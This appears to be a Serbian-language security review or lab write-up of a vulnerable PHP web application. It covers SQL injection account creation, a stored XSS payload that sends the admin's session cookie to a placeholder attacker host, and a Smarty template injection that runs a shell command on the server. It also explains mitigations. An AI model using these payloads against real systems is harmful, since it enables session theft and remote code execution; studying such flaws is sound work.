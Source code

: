# Bezbednosni pregled koda i analiza

## Zaobilaženje mehanizma autentikacije

## Eskalacija privilegija do administratorskog nivoa

Analizom koda za autorizaciju, primećeno je da se proverava samo da li je username korisnika admin. Budući da nema provere dupliranih username, uspešno smo kreirali nalog napadača pomoću SQL injekcije. Zbog diversifikacije, za metod eskalacije privilegija je ipak izabran XSS u vidu skripte koja bi se učitala samo u podacima koje vidi administrator - u tabeli korisnika. Svi korisnici mogu da ažuriraju opis svog profila pri čemu ne postoji validacija unosa. Kasnije se ti podaci koriste na nesiguran način prilikom učitavanja tabele pri čemu dolazi do **persisted XSS** ranjivosti.

```html
<script>fetch(`http://{attacker_host}:{port}/${{document.cookie}}`);</script>
```

*Exploit* sadrži jedan zahtev ka adresi napadača u kom se šalju *Cookies* koji sadrže **PHPSESSID** admina. Potom se ovaj *session id* koristi u novoj sesiji sa administratorskim pravima. Ranjivost je mogla da bude sprečena zaštitom od XSS (validacija unosa i bezbedno rukovanje ispisom vrednosti) ili sigurnom konfiguracijom *Cookies* sa ograničenjima za slanje samo preko *https* i zabranom pristupa polju *cookie* iz *JavaScript-a*.

## Izvršenje proizvoljnog koda na serveru

Analizom koda možemo primetiti par raanjivosti prilikom promene *Message of the day* poruke i njenog učitavanja. Za promenu poruke neophodno je da korisnik ima privilegije admina koje su dobijene u prethodnom zadatku. Poruka se pre slanja ne proverava i moguće je poslati bilo koji tekst ili kod koji se odmah unosi u *motd.tpl*. Ova ranjivost može dovesti do **XSS** i **RCE** napada. 

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];

        if ($message !== "") {
            $t_file = fopen("../templates/motd.tpl","w");
            fwrite($t_file, $message);
            fclose($t_file);

            $success = "Message set!";
        } else {
            $error = "Empty message";
        }
    }
```

Druga bitna ranjivost je korišćenje **Smarty** template-a. Njegov posao je da procesuje sintaksu *motd.tpl* kako bi generisao finlani HTML. **Smarty** ima ugrađenu mogućnost da izvršava i PHP kod, što može biti korisno developer-ima ali takođe čini aplikacije ranjivim. 

**RCE** postižemo tako što kao poruku dana pošaljemo maliciozan kod poput:

```php
{php}exec('pkill -f apache2');{/php}
```

Poruka će se bez provere sačuvati. *MOTD* poruke se prikazuju svim korisnicima nakon prijave na sistem. Kada se korisnik prijavi, aplikacija će pokušati da mu prikaže poruku dana i maliciozni kod će zbog **Smarty**-ija biti izvršen. 
